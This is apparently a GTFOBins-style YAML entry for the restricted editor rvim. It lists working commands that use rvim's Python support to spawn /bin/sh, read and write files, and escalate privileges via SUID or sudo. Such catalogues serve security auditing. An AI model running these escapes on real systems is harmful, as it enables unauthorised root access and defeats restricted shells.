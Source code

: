 ```yaml
---
functions:
  shell:
    - description: This requires that rvim is compiled with Python support.
      code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  file-write:
    - description: This requires that rvim is compiled with Python support.
      code: |
        rvim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: rvim file_to_read
  suid:
    - description: This requires that rvim is compiled with Python support.
      code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  sudo:
    - description: This requires that rvim is compiled with Python support.
      code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
---
```

